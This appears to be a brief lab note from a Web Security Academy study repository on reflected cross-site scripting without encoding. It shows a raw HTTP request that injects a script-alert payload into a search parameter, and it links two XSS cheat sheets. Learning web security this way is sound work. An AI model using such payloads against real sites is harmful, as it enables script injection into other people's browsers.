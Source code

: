 [Volver](../../../README.md)

# XSS REFLECTED NO ENCODE 

```
GET /?search=<script>alert("2")</script> HTTP/1.1
Host: xxx.web-security-academy.net
User-Agent: Mozilla/5.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: https://xxx.web-security-academy.net/
Cookie: session=SESSION
Upgrade-Insecure-Requests: 1
```

## cheat sheet

- https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
- https://gist.github.com/kurobeats/9a613c9ab68914312cbb415134795b45